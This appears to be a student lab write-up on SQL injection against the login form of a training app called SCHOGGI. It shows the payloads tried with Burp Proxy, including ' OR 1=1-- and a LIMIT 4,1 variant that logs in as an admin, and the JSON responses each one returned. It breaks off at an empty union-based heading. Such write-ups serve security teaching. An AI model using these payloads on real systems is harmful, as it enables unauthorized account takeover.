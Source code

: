 # SCHOGGI: SQL Injection on Login Form

- watched Request and Response of the login page for arbitrary logins via Burp Proxy
- we assume that the login query would look something like this:

```sql
SELECT 1 FROM user WHERE username='___' AND password='___';
```

- we tried the `'OR ''=''` separately/together in the username and password field and to exploit a known vulnerability. The responses where either invalid or we got an 500 error

```sql
SELECT 1 FROM user WHERE username='' OR ''='' AND password=''OR ''='';
```

- we tried the `' OR 1=1--[SPACE]` in the username field and the login was successful. We assume because the OR clause is always TRUE and the rest of the WHERE clause is ignored because of comment, we got the first row of the query result.

```sql
SELECT 1 FROM user WHERE username='' OR 1=1--
```

```json
{ "cart": [], "role": "user", "username": "alice" }
```

- now with this knowledge we tried the LIMIT function where we tried to get a specific row. The `LIMIT 4,1` was the first time a admin was returned.

```sql
SELECT 1 FROM user WHERE username=''OR 1=1 LIMIT 4,1--[SPACE]
```

```json
{ "cart": [], "role": "admin", "username": "victor" }
```

# SCHOGGI: Union-Based SQL Injection
